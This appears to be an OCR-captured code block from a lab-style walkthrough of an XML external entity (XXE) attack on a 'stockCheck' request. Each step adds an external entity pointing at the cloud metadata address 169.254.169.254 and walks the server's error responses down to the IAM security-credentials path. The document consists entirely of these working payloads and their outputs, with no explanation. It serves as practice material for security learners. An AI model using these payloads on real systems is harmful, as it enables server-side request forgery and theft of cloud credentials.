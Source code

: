 ```bash
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>

Response:

"Invalid product ID: 
latest
"

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>

Response:

"Invalid product ID: 
meta-data
"

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>

Response:

"Invalid product ID: 
iam
"

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>

Response:

"Invalid product ID: 
security-credentials
"

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>
```